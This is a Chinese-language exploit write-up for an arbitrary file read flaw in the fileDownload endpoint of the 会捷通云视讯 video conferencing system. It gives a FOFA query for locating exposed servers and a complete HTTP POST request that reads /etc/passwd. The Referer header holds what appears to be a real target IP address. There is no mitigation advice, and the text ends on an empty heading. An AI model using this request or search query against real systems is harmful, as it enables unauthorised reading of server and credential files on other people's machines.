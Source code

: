 # 会捷通云视讯 fileDownload 任意文件读取漏洞

## 漏洞描述

会捷通云视讯 fileDownload 存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器上的任意文件

## 漏洞影响

<a-checkbox checked>会捷通云视讯</a-checkbox></br>

## FOFA

<a-checkbox checked>body="/him/api/rest/v1.0/node/role"</a-checkbox></br>

## 漏洞复现

登陆页面如下

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145854036.png)



发送请求包

```plain
POST /fileDownload?action=downloadBackupFile HTTP/1.1
Host: 
Content-Length: 24
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://36.99.45.142:9090/fileDownload?action=downloadBackupFile
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6

fullPath=%2Fetc%2Fpasswd
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145853963.png)



## 